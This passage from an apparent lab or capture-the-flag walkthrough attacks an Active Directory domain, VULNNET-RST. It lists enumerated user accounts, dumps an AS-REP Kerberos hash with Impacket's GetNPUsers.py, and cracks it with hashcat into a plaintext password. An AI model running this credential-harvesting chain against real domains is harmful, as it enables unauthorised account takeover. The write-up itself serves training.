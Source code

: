   ```
  572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
  1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
  1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
  1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
  1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
  1105: VULNNET-RST\a-whitehat (SidTypeUser)
  1109: VULNNET-RST\t-skid (SidTypeUser)
  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
  1111: VULNNET-RST\j-leet (SidTypeUser)
  ```

- For password just press enter and put all `SidTypeUser` in a .txt file.

  ```
  cat users.txt 
  Administrator
  Guest
  krbtgt
  WIN-2BO8M1OE1M1$
  enterprise-core-vn
  a-whitehat
  t-skid
  j-goldenhand
  j-leet
  ```

- Now dump hashes with ASREPRoast.

  ```
  GetNPUsers.py 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.205.21
  Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
  
  DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
  [-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
  $krb5asrep$23$t-skid@VULNNET-RST:a0869866fd0952373811b5951cfbf9ce$9240e66199f3df18550f7779b9ced88f8a204eaa56[SNIP!]f53791f64e1298036fe9de17c7b978f857
  [-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
  [-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
  ```

- Crack the newly found hash. You can find all codes on Hashcat examples.

  ```
  18200 	Kerberos 5, etype 23, AS-REP 	$krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$[SNIP!]

  hashcat -m 18200 skid.txt /rockyou.txt 
  
  $krb5asrep$23$t-skid@VULNNET-RST:a0869866fd09523738[SNIP!]:tj072889*
  ```
